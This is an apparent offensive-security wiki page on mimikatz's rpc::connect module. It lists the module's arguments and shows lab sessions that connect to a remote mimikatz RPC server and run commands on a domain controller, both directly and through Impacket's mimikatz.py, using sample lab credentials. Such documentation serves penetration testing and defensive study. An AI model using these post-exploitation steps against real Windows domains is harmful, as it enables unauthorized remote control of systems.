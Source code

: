 # connect

This module can be used to connect to an RPC endpoint. It has the following command line arguments:

* `/alg`: the encryption algorithm to use for the connection. The options are 3DES or RC4. By default it uses 3DES.
* `/remote`: the RPC server to connect
* `/noauth`: no authentication is required to connect to the remote RPC endpoint
* `/authuser`: the user for authentication
* `/authdomain`: the domain of the authuser
* `/authpassword`: the authuser's password

{% tabs %}
{% tab title="Without authentication" %}
Mimikatz can connect to an RPC server without authentication.

```text
mimikatz # rpc::connect /remote:192.168.0.224 /noauth
[rpc] Remote   : 192.168.0.224
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!
```
{% endtab %}

{% tab title="With authentication" %}
Mimikatz can connect to an RPC server requiring authentication, the `auth*` arguments are needed.

```text
mimikatz # rpc::connect /remote:192.168.0.224 /authuser:m3g9tr0n /authdomain:hacklab.local /authpassword:Super_SecretPass!
[rpc] Remote   : 192.168.0.224
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!
```
{% endtab %}
{% endtabs %}

To run commands on the remote server through the session initiated with mimikatz, a wildcard \(`*`\) should prepend the commands.

```text
mimikatz # hostname
Win10.hacklab.local (WIN10)

mimikatz # *hostname
DC.hacklab.local (DC)
```

The [mimikat](http://mimikatz.py/)​[z.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mimikatz.py) from Impacket can also be used to connect to it.

{% tabs %}
{% tab title="Without authentication" %}
Without supplying credentials, mimikatz.py will attempt to start an unauthenticated session.

```text
# python3 mimikatz.py 192.168.0.224                                                                                                                                                                                                     1 ⨯
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
DC.hacklab.local (DC)
```
{% endtab %}

{% tab title="With authentication" %}
If the remote RPC endpoint requires authentication, mimikatz.py will need credentials.

```text
# python3 mimikatz.py hacklab.local/m3g9tr0n:Super_SecretPass!@192.168.0.224
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
DC.hacklab.local (DC)
```
{% endtab %}
{% endtabs %}

